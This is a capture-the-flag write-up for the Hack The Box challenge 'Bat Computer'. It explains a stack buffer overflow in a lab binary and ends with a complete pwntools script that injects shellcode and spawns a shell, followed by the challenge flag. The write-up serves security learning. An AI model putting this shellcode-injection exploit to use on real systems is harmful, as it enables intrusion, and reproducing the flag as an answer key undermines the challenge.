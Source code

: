 # Bat Computer
> Write-up author: jon-brandy
## DESCRIPTION:
It's your time to save the world!
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466124-165c91d7-782c-43fe-95f3-f1c4d5b5b6df.png)


2. Next, check the file type.

> RESULT - 64 bit, stripped

![image](https://user-images.githubusercontent.com/70703371/209466133-9ea11e4c-167c-4750-b406-ca376c95304b.png)


3. Since it's a binary file, check the file's protection.

> RESULT - No Canary Found (means we can do bufferoverflow), NX disabled (means we can inject shellcode)

![image](https://user-images.githubusercontent.com/70703371/209466161-d860d603-e2a9-48d0-a588-ee38d583ad16.png)


4. Let's run chmod first to make the executable then run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466201-78001337-1429-44e0-90c8-93364aff7f8d.png)


5. Let's choose to track joker first.

![image](https://user-images.githubusercontent.com/70703371/209466212-8febfab0-ab55-4c1d-a3fc-a1b845c263a5.png)


6. Now let's chase him.

![image](https://user-images.githubusercontent.com/70703371/209466227-ab9face8-c56f-4af1-a53a-739bdf206574.png)


![image](https://user-images.githubusercontent.com/70703371/209466238-3a283a09-0eee-4510-840a-cdb19c4de183.png)


7. Let's decompile the file in ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466257-86061308-c0aa-4a0d-98dc-26d65b4c0a6e.png)


8. Since the binary stripped, hence it's harder for us identify the function.
9. Anyway i think i found the `main()` function.

![image](https://user-images.githubusercontent.com/70703371/209466274-44f2c43b-1e89-4460-94e5-48b2c77dbd77.png)


10. We found the password here, but i don't think the program will give us a flag when we entered the correct pass.

![image](https://user-images.githubusercontent.com/70703371/209466369-2685fcf5-5bef-462f-83b2-e3c13f0f3cae.png)


12. The vuln here is the `auStack84` only has 76 size of buffers but the binary read 137. Hence we can utilize it for bufferoverflow.. 

![image](https://user-images.githubusercontent.com/70703371/209514203-72e514f3-fc0b-449d-8c34-df461ffec906.png)


13. The attack we shall use to get the flag is `inject a shellcode`.
14. So when the binary prompts us the navigation, we inject the shellcode there, so the shellcode will stored at the stack location which we have the address of. So then we need to overwrite the return address (the instruction pointer), overwrite that with the address of the stack where we place our shell code.
15. In short, since the `auStack84` location will change everytime we execute the binary, so we need to extract the address of it, then we need to enter the password and enter the shellcode. To control the return address we need to overflow the buffer.
16.  Now let's run the binary in gdb.

> RESULT - CHOOSE OPTION 2 - ENTER THE PASSWORD (b4tp@$$w0rd!)

![image](https://user-images.githubusercontent.com/70703371/209515683-69da2386-8b87-4d88-acab-912037ea9c59.png)


17. Enter cyclic 1024 pattern.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209516091-384d2679-2871-4896-bcd3-25eb2d8caddc.png)


18. The program didn't crash, because it will crash until we hit return, remember that we are in a while loop.

![image](https://user-images.githubusercontent.com/70703371/209516369-f8855662-9a57-4a91-820e-c15e469632da.png)


19. Let's make another cyclic pattern, but this time 100.
20. Run the binary again in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209516507-c0ab0615-b327-4543-9c69-747707710a61.png)


21. This time enter random number.

> RESULT - SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209516541-6cef29de-deba-466a-a618-b4af96d1fa09.png)


22. Now take 4 bytes from RSP to look the correct bytes to overflow the buffer.

> RESULT - 84 BYTES

![image](https://user-images.githubusercontent.com/70703371/209516745-eaee73ed-a9f0-41d8-a3bd-8575482d8c64.png)


23. Means we need to write 84 bytes, then the return address (the location of joker), enter the password, enter the shellcode.
24. Now for the exploit script, to extract the stack offset, i used `pwntools` to make this regex.

```py
extractedStack_addr = int(re.search(r"(0x[\w\d]+)", sh.recvlineS()).group(0), 16)
```

25. Now for the shellcode, we can utilize the `shellcraft`.
26. First, we need to pop registers at the beginning se we have room to inject shellcode.
27. For the padding value , we can use this formula:

```py
padding = asm('nop') * (paddingBytes - len(shellcode)) 
```

28. So here is our final script:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './batcomputer'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

## EXPLOITATION

paddingBytes = 84 #EIP/RIP offset
sh = start()

sh.sendlineafter('>', '1')
extractedStack_addr = int(re.search(r"(0x[\w\d]+)", sh.recvlineS()).group(0), 16)
info("extractedStack_addr (joker's offset): %#x", extractedStack_addr)

shellcode = asm(shellcraft.popad()) 
shellcode += asm(shellcraft.sh())
padding = asm('nop') * (paddingBytes - len(shellcode)) 

payload = flat([
    padding,
    shellcode,
    extractedStack_addr
])

sh.sendlineafter(b'>', b'2') 
sh.sendlineafter(b'Enter the password:', b'b4tp@$$w0rd!') 
sh.sendlineafter(b'Enter the navigation commands:', payload) 
sh.sendlineafter(b'>', b'130') # to trigger return 
sh.recvuntil("Too bad, now who's gonna save Gotham? Alfred?\n")

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209521025-4a04b417-cbdd-4d26-be13-5ab04c9a6e78.png)


![image](https://user-images.githubusercontent.com/70703371/209521063-df20c595-fb57-44af-b01a-0296b8ca3154.png)


![image](https://user-images.githubusercontent.com/70703371/209521083-f75e7023-e6e4-4e1e-8668-699835443529.png)


![image](https://user-images.githubusercontent.com/70703371/209521119-0b3ce4e4-6532-4f08-bd7e-694a3420f297.png)


![image](https://user-images.githubusercontent.com/70703371/209521140-428fae0e-3176-4fda-baa8-6f95c799f629.png)


29. Got the flag!

## FLAG

```
HTB{l0v3_y0uR_sh3llf_U_s4v3d_th3_w0rld!}
```
